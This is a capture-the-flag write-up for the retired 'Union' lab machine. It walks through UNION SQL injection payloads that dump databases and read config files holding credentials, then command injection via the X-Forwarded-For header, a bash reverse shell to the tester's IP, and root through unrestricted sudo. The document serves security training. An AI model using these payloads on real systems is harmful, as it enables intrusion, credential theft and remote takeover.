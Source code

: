 # Union

This is the write-up for the box Union that got retired at the 23rd November 2021.
My IP address was 10.10.14.12 while I did this.

Let's put this in our hosts file:
```markdown
10.10.11.128    union.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/union.nmap 10.10.11.128
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web service hosts a custom developed website with the title _"Join the UHC - November Qualifiers"_ and there is an input field.
When typing anything into the field, it reveals a link to _challenge.php_ and on there it expects the _first flag_.

When sending a name of a real user of the **UHC November Qualifiers** like the creator of the box _ippsec_, then it shows a different message:
```
Sorry, ippsec you are not eligible due to already qualifying.
```

By testing for **SQL Injection** in this field, it can be proofed that it is possible as the comment is not displayed in the username:
```
POST /index.php HTTP/1.1
Host: 10.10.11.128
(...)

player=ippsec'-- -
```

Using **Union SQL Injection** to check number of fields:
```
player=ippsec' union select 1-- -

player=ippsec' union select 1,2-- -
```

The second query fails, so there seems to be only one field.
Getting information out of the _information_schema database_:
```
player=' union select group_concat(schema_name) from information_schema.schemata-- -
```
```
Sorry, mysql,information_schema,performance_schema,sys,november you are not eligible due to already qualifying.
```

It shows the names of the databases _mysql_, _information_schema_, _performance_schema_, _sys_, _november_ in the response output.

Getting table and column names from database _november_:
```
player=' union select group_concat(TABLE_NAME,':', COLUMN_NAME, "\n") from information_schema.columns where TABLE_SCHEMA like 'november'-- -
```
```
Sorry, flag:one
,players:player
 you are not eligible due to already qualifying.
```

Getting contents of the table _players_:
```
player=' union select group_concat(player, "\n") from november.players-- -
```
```
Sorry, ippsec
,celesian
,big0us
,luska
,tinyboy
you are not eligible due to already qualifying.
```

Getting contents of the table _flag_:
```
player=' union select group_concat(one, "\n") from november.flag-- -
```
```
Sorry, UHC{F1rst_5tep_2_Qualify}
you are not eligible due to already qualifying.
```

When sending the flag to _challenge.php_, it forwards to _firewall.php_ and shows a message, that our IP address has been granted SSH access:
```
Welcome Back!
Your IP Address has now been granted SSH Access.
```

The port 22 for SSH is now open and can be reached, but we have no credentials yet:
```
nc -zv 10.10.11.128 22

Ncat: Connected to 10.10.11.128:22.
```

The **SQL Injection** vulnerability can be used to read files from the file system.
The file _firewall.php_ requires _config.php_ and this file contains credentials:
```
player=' union select LOAD_FILE('/var/www/html/firewall.php')-- -

player=' union select LOAD_FILE('/var/www/html/config.php')-- -
```
```
(...)
$username = "uhc";
$password = "uhc-11qual-global-pw";
$dbname = "november";
```

With these credentials, it is possible to access the box via SSH:
```
ssh uhc@10.10.11.128
```

## Privilege Escalation

The file _/var/www/html/firewall.php_ has the code of the SSH enabling:
```php
(...)
if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
(...)
```

It will send the variable _ip_ in the _X-FORWARDED-FOR_ header and it should be possible to inject commands:
```
GET /firewall.php HTTP/1.1
(...)
X-FORWARDED-FOR: ;sleep 3;
```

With the `sleep` command, it took three seconds until the response came back, so arbitrary command execution is proofed.
Sending a reverse shell command:
```
X-FORWARDED-FOR: ;bash -c 'bash -i >& /dev/tcp/10.10.14.12/9001 0>&1';
```

After sending the request, the listener on my IP and port 9001 starts a reverse shell as _www-data_.

### Privilege Escalation to root

The `sudo` permissions of _www-data_ shows that the user can run any command as root:
```
User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL
```

When running `sudo bash`, it will spawn a shell as root!
